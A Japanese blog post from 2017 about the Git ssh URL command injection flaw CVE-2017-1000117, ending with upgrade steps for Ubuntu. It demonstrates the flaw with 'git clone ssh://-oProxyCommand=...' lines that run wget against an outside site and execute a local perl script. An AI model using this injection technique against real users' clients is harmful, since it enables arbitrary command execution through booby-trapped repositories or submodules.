 ```yaml
---
title: "Gitの脆弱性(CVE-2017-1000117)について調べてみた"
date: 2017-08-15T19:49:07Z
slug: "000003"
tags: ["Git", "脆弱性"]
draft: false
---
```

8/11にGitの脆弱性 ( CVE-2017-1000117 )が発生しました。  

<https://oss.sios.com/security/git-security-vulnerabiltiy-20170813>

内容はこうです。  

>gitクライアント上での任意のコマンド実行の可能性
>
>Gitでの"ssh"URLハンドリングにshellコマンドインジェクションの欠陥が見つかりました。
>これを利用して、悪意のあるレポジトリや悪意のあるコミットを行われたを
>レポジトリに対して"clone"アクションをGitクライアントで実行した際に、
>Gitクライアントを実行したユーザの権限でshellコマンドを実行される可能性が有ります。

どうやらsshのURL部にOSコマンドインジェクションを埋め込めるようです。  

## 脆弱性を確認する
では試してみます。

```sh
$ git --version
#git version 1.9.1

$ git clone ssh://-oProxyCommand='wget www.google.co.jp'/hoge

#Cloning into 'hoge'...
#Pseudo-terminal will not be allocated because stdin is not a terminal.
#--2017-08-15 05:06:18--  http://www.google.co.jp/
#Resolving www.google.co.jp (www.google.co.jp)... 216.58.221.3, 2404:6800:4004:814::2003
#Connecting to www.google.co.jp (www.google.co.jp)|216.58.221.3|:80... connected.
#HTTP request sent, awaiting response... 200 OK
#Length: unspecified [text/html]
#Saving to: ‘index.html’
#
#    [ <=>                                                                                                                                                                                                ] 10,643      --.-K/s   in 0s      
#
#2017-08-15 05:06:18 (301 MB/s) - ‘index.html’ saved [10643]
#
#ssh_exchange_identification: Connection closed by remote host
#fatal: Could not read from remote repository.
#
#Please make sure you have the correct access rights
#and the repository exists.

$ ls
#index.html
```

おっと、簡単にwget出来てしまいました。。

スクリプトも実行できるんでしょうか？
perlで以下のようなスクリプトを作ってみます。

```perl
#!/usr/bin/perl

open(FILE, '> /tmp/hoge');
print FILE "hoge";
close(FILE);
```

これを実行できるか試してみます。  

```sh
$ git clone ssh://-oProxyCommand='perl test.pl'/hoge

#Cloning into 'hoge'...
#Pseudo-terminal will not be allocated because stdin is not a terminal.
#fatal: Could not read from remote repository.
#
#Please make sure you have the correct access rights
#and the repository exists.

$ cat /tmp/hoge
#hoge
```

perlも簡単に実行できました。

こんなリポジトリ名なら、普通Cloneしないと思いますが、  
同じようなことがGitサブモジュールでも出来るようなので  
仕組まれていたら気づかない可能性もあります。

なので、__Gitのバージョンアップは早めにやっちゃいましょう！__

## Gitのバージョンアップ方法
環境はUbuntuです。

```sh
$ sudo apt-get update
$ sudo apt-get install git git-man

# 確認
$ sudo dpkg -l | grep git
```
